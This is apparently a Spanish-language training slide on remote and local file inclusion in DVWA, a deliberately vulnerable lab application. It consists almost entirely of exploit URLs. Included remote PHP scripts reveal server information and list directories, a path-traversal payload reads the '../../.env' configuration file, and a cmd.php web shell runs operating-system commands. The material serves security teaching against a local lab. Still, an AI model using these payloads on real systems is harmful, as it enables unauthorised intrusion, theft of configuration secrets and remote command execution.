

# Vulnerabilidades RFI
Obtener versión php del servidor.
http://localhost/dvwa/vulnerabilities/fi/?page=http://localhost/test/getInfoPHP.php
Listar archivos de un directorio
http://localhost/dvwa/vulnerabilities/fi/?page=http://localhost/test/cat.php
Acceso a un archivo que no se muestra al usuario
http://localhost/dvwa/vulnerabilities/fi/?page=file4.php
Acceso a la raíz del proyecto.
http://localhost/dvwa/vulnerabilities/fi/?page=http://localhost/test/root.php
Acceso a archivos de configuración del proyecto.
http://localhost/dvwa/vulnerabilities/fi/?page=../../.env
Ejecutar comandos cli del S.O
http://localhost/dvwa/vulnerabilities/fi/?page=http://localhost/test/cmd.php/?cmd=dir
http://localhost/dvwa/vulnerabilities/fi/?page=http://localhost/test/cmd.php/?cmd=cd